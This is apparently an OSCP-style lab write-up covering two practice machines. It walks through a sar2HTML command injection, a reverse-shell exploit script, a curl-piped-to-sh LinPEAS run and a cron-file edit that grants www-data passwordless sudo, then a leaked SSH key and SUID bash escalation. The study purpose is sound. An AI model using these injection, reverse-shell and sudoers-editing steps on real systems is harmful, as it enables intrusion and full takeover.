

 # system vulnerable : sar - 192.168.65.35

 ## vulnerability Explanation :

    This indicates an attack attempt to exploit a Command Injection vulnerability in SAR2HTML.
    The vulnerability is due to insufficient sanitizing of user supplied inputs in the application when handling a crafted HTTP request.
    A remote attacker may be able to exploit this to execute   arbitrary commands within the context of the application, via a crafted HTTP request.

## privileges Escalation vulnerability :
    Privilege Escalation via Root Crontab File Modification

## vulnerability Fix :
    It recommended to update sar2HTML to the lastest version in order to apply the vendor supplied patches.

 ## nmap scan :
 ```
 $ nmap -sS -sV -p- 192.168.65.35

Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 09:29 EDT
Stats: 0:12:12 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 76.87% done; ETC: 09:45 (0:03:40 remaining)
Nmap scan report for 192.168.65.35
Host is up (0.058s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2030.36 seconds
``` 

## after we know port 80 is Open

## Directory enumeration with  **Dirb** 

```
$ dirb http://192.168.65.35 /usr/share/wordlists/dirbuster/directory-list-1.0.txt -X .txt

DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Wed Oct  5 09:51:23 2022
URL_BASE: http://192.168.65.35/
WORDLIST_FILES: /usr/share/wordlists/dirbuster/directory-list-1.0.txt
EXTENSIONS_LIST: (.txt) | (.txt) [NUM = 1]

.35/robots.txt (CODE:200|SIZE:9)
```


 After small searche about service and its version 
 I found sar2HTML 3.2.1  is vuln to  remote code execution.


[ http://192.168.65.35/index.php?plot=;ls -la ] 
will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.


## EXPLOIT :
### used an exploit from (Reverse Shell for sar2HTM) : https://github.com/AssassinUKG/sar2HTML
```
$ python3 sar2HTMLshell.py -ip 192.168.65.35 -rip 192.168.49.65:5555 -pe sar2HTML 
                _____  _   _ ________  ___ _     
               / __  \| | | |_   _|  \/  || |    
 ___  __ _ _ __`' / /'| |_| | | | | .  . || |    
/ __|/ _` | '__| / /  |  _  | | | | |\/| || |    
\__ \ (_| | |  ./ /___| | | | | | | |  | || |____
|___/\__,_|_|  \_____/\_| |_/ \_/ \_|  |_/\_____/
                                                 
                                                 
The Host Appears Vulnerable, Running a basic shell ...
Enter: 'rs session' for a ReverseShell
$\cmd> rs session 
```
OPEN NEW SHELL WINDOW 


Search for possible paths to escalate privileges with **LinPEAS** tool I found crontab run with root privileges :


```
$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

 ...
 
  */5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh
  2019-10-20+21:18:10.9383805730 /var/www/html/finally.sh
  /var/www/html/finally.sh
  /var/www/html/finally.sh
  
  ...

```


### www-data user have the right to edit the write.sh

```
$ ls -l write.sh
-rwxrwxrwx 1 www-data www-data 30 Jul 24  2020 write.sh
```
```
$ echo 'echo "www-data ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' >> /var/www/html/write.sh
```


```


```

# system vulnerable : InfosecPrep - 192.168.65.89

 ## vulnerability Explanation :

Invicti detected a Robots.txt file with potentially sensitive content.

## privileges Escalation vulnerability :
    Privilege Escalation via SUID 

## vulnerability Fix :
    Ensure you have nothing sensitive exposed within this file, such as the path of an administration panel. If disallowed paths are sensitive and you want to keep it from unauthorized access, do not write them in the Robots.txt, and ensure they are correctly protected by means of authentication.
    Robots.txt is only used to instruct search robots which resources should be indexed and which ones are not.

## Enumeration with NMAP:

```
$ sudo nmap -sS -sV -p- 192.168.65.89
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-05 16:22 EDT
Nmap scan report for 192.168.65.89
Host is up (0.061s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http    Apache httpd 2.4.41 ((Ubuntu))
33060/tcp open  mysqlx?
```

After i know port 80 is open now time to start Dir Enumeration 

## Dir enumeration with **Drib**


I found **robots.txt**


after that i saw a secret.txt ther


with some encerpted text 

decode this text with cmd :


### its a openssh privet key ,after that i try to connect to ssh service as i know from the main page of the website the only user in web app is "OSCP"


## Privilege Escalation:

privilige escaltion tool **liPEAS** : https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

after run the follwing CMD :
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```


I found we can run /usr/bin/bash owned by the user **ROOT** with SUID permission 


